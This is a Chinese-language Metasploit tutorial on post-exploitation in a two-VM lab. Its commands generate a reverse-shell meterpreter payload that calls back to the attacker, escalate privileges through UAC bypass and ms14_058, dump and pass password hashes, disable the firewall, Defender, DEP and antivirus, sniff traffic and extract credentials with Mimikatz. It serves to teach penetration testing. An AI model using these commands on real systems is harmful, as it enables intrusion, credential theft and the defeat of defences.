# 后渗透之信息收集和提权
> 当我们拿到一台主机的shell之后，我们想打内网或者想找到有用的信息，或者得到主机管理员权限。

> 后渗透的本质是权限把控

- 权限分类：
  1. 后台权限
  2. webshell权限
  3. 服务器权限（普通权限、管理员权限）
  4. 域控权限
- 通过前端渗透可获得1或2权限，后渗透可通过1或2权限进而获得3或4权限。

## 0x01环境搭建

**首先需要模拟一套已经完成渗透的环境出来**

1. 准备两台虚拟机：一台Kali，IP为192.168.11.128；一台Win7 x64，IP为192.168.11.133

2. 在Kali上生成木马（反向连接），并进行监听

3. 在Win7上运行木马

4. 操控靶机

   ```
   // 生成木马
   # msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.11.128 LPORT=4444 -f exe > msf.exe
   ```

   

   ```
   // 开启监听
   # msfconsole
   # msf6 > use exploit/multi/handler
   # msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
   # msf6 exploit(multi/handler) > set lhost 192.168.11.128
   # msf6 exploit(multi/handler) > exploit
   ```

   

## 0x02权限提升

> meterpreter中，getuid指令可查看当前权限

### 提高程序运行级别

> 用户帐户控制（User Account Control，简写作*UAC*)
>
> 通过UAC，让用户手动授权

1. 启动Exploit/windows/local/ask模块

2. 配置session和filename，并运行模块

3. 在靶机界面中手动确认

4. 使用getsystem指令提权

   ```
   // 将meterpreter终端隐藏在后台
   # meterpreter > background
   // 启动Exploit/windows/local/ask模块
   # msf6 > use exploit/windows/local/ask
   // 配置session和filename，并运行模块
   # msf6 exploit(windows/local/ask) > set session 1
   # msf6 exploit(windows/local/ask) > set filename PyCharm.exe
   # msf6 exploit(windows/local/ask) > exploit
   // 最后使用getsystem提权
   # meterpreter > getsystem
   ```

   

   

### 利用UAC绕过进行提权

> 利用相应绕过UAC的模块进行提权

1. 启动Exploit/windows/local/bypassuac模块

2. 配置session，并运行模块

3. 使用getsystem指令提权

   ```
   // 启动Exploit/windows/local/bypassuac模块
   # msf6 > use exploit/windows/local/bypassuac
   // 配置session，并运行模块
   # msf6 exploit(windows/local/bypassuac) > set session 1
   # msf6 exploit(windows/local/bypassuac) > exploit
   // 最后使用getsystem提权
   # meterpreter > getsystem
   ```

   

### 利用提权漏洞进行提权

> 利用靶机相应提权漏洞进行提权
>
> 以ms14_058_track_popup_menu为例

1. 查看提权漏洞的用法

   

2. 配置相应信息，并运行模块

   ```
   // 启动Exploit/windows/local/ms14_058_track_popup_menu模块
   # msf6 > use exploit/windows/local/ms14_058_track_popup_menu
   // 配置相关信息，并运行模块
   # msf6 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
   # msf6 exploit(windows/local/ms14_058_track_popup_menu) > set target 1
   # msf6 exploit(windows/local/ms14_058_track_popup_menu) > exploit
   ```

   

## 0x02信息收集

### MSF脚本

> 在meterpreter中使用run指令运行相应脚本
>
> 输入run后按两下tab，会列出所有的已有脚本

- 检查靶机是否是虚拟机

  ```
  # meterpreter > run post/windows/gather/checkvm
  ```

  

- 获取最近的文件操作

  ```
  # meterpreter > run post/windows/gather/dumplinks
  ```

  

- 获取安装软件信息

  ```
  # meterpreter > run post/windows/gather/enum_applications
  ```

  

- 查看靶机所打补丁

  ```
  # meterpreter > run post/windows/gather/enum_patches
  ```

  

### 哈希传递

> Passing the Hash
>
> Window系统下的Hash密码格式为：用户名称:RID:LM-Hash值:NT-Hash值
>
> root:1000:aad3b435b51404eeaad3b435b51404ee:2b55f502918363eaaf713ba072e02e38:::

- 获取Hash值

  - hashdump

    ```
    # meterpreter > hashdump
    # meterpreter > run post/windows/gather/hashdump
    ```

  - smart_hashdump

    ```
    # meterpreter > run post/windows/gather/smart_hashdump
    ```

- 哈希值破解

  - 在线破解：https://www.cmd5.com/

  - 离线破解：findmyhash、L0phtCrack

  - MSF模块

    > auxiliary/analyze/jtr_crack_fast模块
    >
    > 可以自动从缓存中获取hash值

    ```
    # msf > use auxiliary/analyze/jtr_crack_fast
    # msf exploit(jtr_crack_fast) > run
    ```

- 哈希传递

  > 使用exploit/windows/smb/psexec模块
  >
  > 靶机必须开启445端口
  >
  > 用hash值登陆靶机，获取新session

  ```
  # msf > use exploit/windows/smb/psexec
  # msf exploit(psexec) > set payload windows/x64/meterpreter/reverse_tcp
  # msf exploit(psexec) > set lhost 192.168.11.128
  # msf exploit(psexec) > set rhost 192.168.11.133
  # msf exploit(psexec) > set smbuser 用户名
  # msf exploit(psexec) > set smbpass LM-Hash值:NT-Hash值
  # msf exploit(psexec) > exploit
  ```

### 关闭UAC、防火墙及杀毒软件

- 关闭UAC

  > 修改注册表后，需要重启生效

  ```
  # meterpreter > shell
  # C:\Users\win7\Desktop>reg.exe add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG DWORD /d 0 /f
  ```

  

- 关闭防火墙

  > 需要管理员权限

  ```
  # meterpreter > shell
  # C:\Users\win7\Desktop>netsh advfirewall set allprofiles state off
  ```

  

  

- 关闭Denfender

  ```
  # meterpreter > shell
  # C:\Users\win7\Desktop>net stop windefend
  ```

  

  

- 关闭DEP（数据执行保护）

  ```
  # meterpreter > shell
  # C:\Users\win7\Desktop>bcdedit.exe /set {current} nx alwaysoff
  ```

  

- 关闭杀毒软件

  > 使用MSF脚本

  ```
  # meterpreter > run killav
  # meterpreter > run post/windows/manage/killav
  ```

  

### 数据包捕获

- **抓包**

1. 加载sniffer插件

2. 查看网卡信息

3. 开启监听

4. 导出数据包

   ```
   # meterpreter > load sniffer
   // 需要管理员权限
   # meterpreter > sniffer_interfaces
   # meterpreter > sniffer_strat 2
   # meterpreter > sniffer_dump 2 2.cap
   ```





- **解包**

> 使用auxiliary/sniffer/psnuffle模块进行解包

```
# msf6 > use auxiliary/sniffer/psnuffle
# msf6 auxiliary(sniffer/psnuffle) > set pacpfile /root/桌面/2.cap
# msf6 auxiliary(sniffer/psnuffle) > exploit
```



### Mimikatz

> Mimikatz模块已经合并为kiwi模块
>
> Mimikatz是一款后渗透测试工具。它能够从Windows认证(LSASS)的进程中获取内存，并且获取明文密码和NTLM哈希值的工具。

1. 加载kiwi插件

2. 查看帮助

   ```
   # meterpreter > load kiwi
   # meterpreter > help kiwi
   ```

   

3. Retrieve LM/NTLM creds（用户hash口令）

4. Retrieve WDigest creds（用户明文口令）

   ```
   // 需要管理员权限
   # meterpreter > creds_msv
   # meterpreter > creds_wdigest
   ```

   